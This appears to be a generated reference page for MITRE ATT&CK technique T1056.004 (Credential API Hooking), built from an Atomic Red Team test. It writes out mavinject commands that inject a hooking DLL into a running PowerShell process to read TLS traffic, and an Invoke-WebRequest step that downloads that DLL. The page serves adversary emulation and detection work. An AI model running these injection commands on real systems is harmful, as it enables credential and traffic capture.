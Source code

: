 
# Credential API Hooking

## Description

### MITRE Description

> Adversaries may hook into Windows application programming interface (API) functions to collect user credentials. Malicious hooking mechanisms may capture API calls that include parameters that reveal user authentication credentials.(Citation: Microsoft TrojanSpy:Win32/Ursnif.gen!I Sept 2017) Unlike [Keylogging](https://attack.mitre.org/techniques/T1056/001),  this technique focuses specifically on API functions that include parameters that reveal user credentials. Hooking involves redirecting calls to these functions and can be implemented via:

* **Hooks procedures**, which intercept and execute designated code in response to events such as messages, keystrokes, and mouse inputs.(Citation: Microsoft Hook Overview)(Citation: Endgame Process Injection July 2017)
* **Import address table (IAT) hooking**, which use modifications to a process’s IAT, where pointers to imported API functions are stored.(Citation: Endgame Process Injection July 2017)(Citation: Adlice Software IAT Hooks Oct 2014)(Citation: MWRInfoSecurity Dynamic Hooking 2015)
* **Inline hooking**, which overwrites the first bytes in an API function to redirect code flow.(Citation: Endgame Process Injection July 2017)(Citation: HighTech Bridge Inline Hooking Sept 2011)(Citation: MWRInfoSecurity Dynamic Hooking 2015)


## Aliases

```

```

## Additional Attributes

* Bypass: None
* Effective Permissions: None
* Network: None
* Permissions: ['Administrator', 'SYSTEM']
* Platforms: ['Windows']
* Remote: None
* Type: attack-pattern
* Wiki: https://attack.mitre.org/techniques/T1056/004

## Potential Commands

```
mavinject $pid /INJECTRUNNING PathToAtomicsFolder\T1056.004\bin\T1056.004x64.dll
curl #{server_name}
mavinject $pid /INJECTRUNNING #{file_name}
curl https://www.example.com
```

## Commands Dataset

```
[{'command': 'mavinject $pid /INJECTRUNNING '
             'PathToAtomicsFolder\\T1056.004\\bin\\T1056.004x64.dll\n'
             'curl #{server_name}\n',
  'name': None,
  'source': 'atomics/T1056.004/T1056.004.yaml'},
 {'command': 'mavinject $pid /INJECTRUNNING #{file_name}\n'
             'curl https://www.example.com\n',
  'name': None,
  'source': 'atomics/T1056.004/T1056.004.yaml'}]
```

## Potential Detections

```json

```

## Potential Queries

```json

```

## Raw Dataset

```json
[{'Atomic Red Team Test - Input Capture: Credential API Hooking': {'atomic_tests': [{'auto_generated_guid': 'de1934ea-1fbf-425b-8795-65fb27dd7e33',
                                                                                     'dependencies': [{'description': 'T1056.004x64.dll '
                                                                                                                      'must '
                                                                                                                      'exist '
                                                                                                                      'on '
                                                                                                                      'disk '
                                                                                                                      'at '
                                                                                                                      'specified '
                                                                                                                      'location '
                                                                                                                      '(#{file_name})\n',
                                                                                                       'get_prereq_command': 'New-Item '
                                                                                                                             '-Type '
                                                                                                                             'Directory '
                                                                                                                             '(split-path '
                                                                                                                             '#{file_name}) '
                                                                                                                             '-ErrorAction '
                                                                                                                             'ignore '
                                                                                                                             '| '
                                                                                                                             'Out-Null\n'
                                                                                                                             'Invoke-WebRequest '
                                                                                                                             '"https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1056.004/bin/T1056.004x64.dll" '
                                                                                                                             '-OutFile '
                                                                                                                             '"#{file_name}"\n',
                                                                                                       'prereq_command': 'if '
                                                                                                                         '(Test-Path '
                                                                                                                         '#{file_name}) '
                                                                                                                         '{exit '
                                                                                                                         '0} '
                                                                                                                         'else '
                                                                                                                         '{exit '
                                                                                                                         '1}\n'}],
                                                                                     'dependency_executor_name': 'powershell',
                                                                                     'description': 'Hooks '
                                                                                                    'functions '
                                                                                                    'in '
                                                                                                    'PowerShell '
                                                                                                    'to '
                                                                                                    'read '
                                                                                                    'TLS '
                                                                                                    'Communications\n',
                                                                                     'executor': {'command': 'mavinject '
                                                                                                             '$pid '
                                                                                                             '/INJECTRUNNING '
                                                                                                             '#{file_name}\n'
                                                                                                             'curl '
                                                                                                             '#{server_name}\n',
                                                                                                  'elevation_required': True,
                                                                                                  'name': 'powershell'},
                                                                                     'input_arguments': {'file_name': {'default': 'PathToAtomicsFolder\\T1056.004\\bin\\T1056.004x64.dll',
                                                                                                                       'description': 'Dll '
                                                                                                                                      'To '
                                                                                                                                      'Inject',
                                                                                                                       'type': 'Path'},
                                                                                                         'server_name': {'default': 'https://www.example.com',
                                                                                                                         'description': 'TLS '
                                                                                                                                        'Server '
                                                                                                                                        'To '
                                                                                                                                        'Test '
                                                                                                                                        'Get '
                                                                                                                                        'Request',
                                                                                                                         'type': 'Url'}},
                                                                                     'name': 'Hook '
                                                                                             'PowerShell '
                                                                                             'TLS '
                                                                                             'Encrypt/Decrypt '
                                                                                             'Messages',
                                                                                     'supported_platforms': ['windows']}],
                                                                   'attack_technique': 'T1056.004',
                                                                   'display_name': 'Input '
                                                                                   'Capture: '
                                                                                   'Credential '
                                                                                   'API '
                                                                                   'Hooking'}}]
```

# Tactics


* [Collection](../tactics/Collection.md)

* [Credential Access](../tactics/Credential-Access.md)
    

# Mitigations

None

# Actors


* [PLATINUM](../actors/PLATINUM.md)

